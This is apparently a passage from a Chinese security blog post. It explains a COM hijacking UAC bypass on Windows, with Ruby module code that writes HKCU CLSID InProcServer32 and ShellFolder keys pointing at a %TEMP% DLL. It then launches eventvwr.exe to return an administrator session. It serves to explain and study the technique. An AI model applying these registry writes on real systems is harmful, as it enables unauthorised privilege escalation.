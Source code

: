 创建注册表：

```ruby
target = @@hijack_points.sample
    target_clsid = target[:class_ids].sample
    root_key = "#{CLSID_PATH}\\{#{target_clsid}}"
    inproc_key = "#{root_key}\\InProcServer32"
    shell_key = "#{root_key}\\ShellFolder"

    registry_createkey(root_key, registry_view)
    registry_createkey(inproc_key, registry_view)
    registry_createkey(shell_key, registry_view)

    registry_setvaldata(inproc_key, DEFAULT_VAL_NAME, dll_path, 'REG_SZ', registry_view)
    registry_setvaldata(inproc_key, 'ThreadingModel', 'Apartment', 'REG_SZ', registry_view)
    registry_setvaldata(inproc_key, 'LoadWithoutCOM', '', 'REG_SZ', registry_view)
    registry_setvaldata(shell_key, 'HideOnDesktop', '', 'REG_SZ', registry_view)
    registry_setvaldata(shell_key, 'Attributes', 0xf090013d, 'REG_DWORD', registry_view)

    {
      name:     target[:name],
      cmd_path: target[:cmd_path],
      cmd_args: target[:cmd_args],
      root_key: root_key
    }
```

注册表项分别是：

* HKCU\Software\Classes\CLSID\{0A29FF9E-7F9C-4437-8B11-F424491E3931}\InProcServer32
* HKCU\Software\Classes\CLSID\{0A29FF9E-7F9C-4437-8B11-F424491E3931}\ShellFolder

InProcServer32中有Key：

* Default -> %TEMP%\八位随机数.dll
* ThreadingModel -> Apartment

ShellFolder中有Key：

* LoadWithoutCOM -> 空
* HideOnDesktop  -> 空
* Attributes -> 0xf090013d

创建完毕后，会启动`cmd.exe /c eventvwr.exe`，接着会反弹回来一个管理员会话。

<p>
<video src="https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/video/com_hijacking.mp4" controls="controls" width="500px">
哎呀~ 换个浏览器试试吧！
</video>
</p>

### 手动测试

手动测试可以将以下文件保存为`test.reg`：
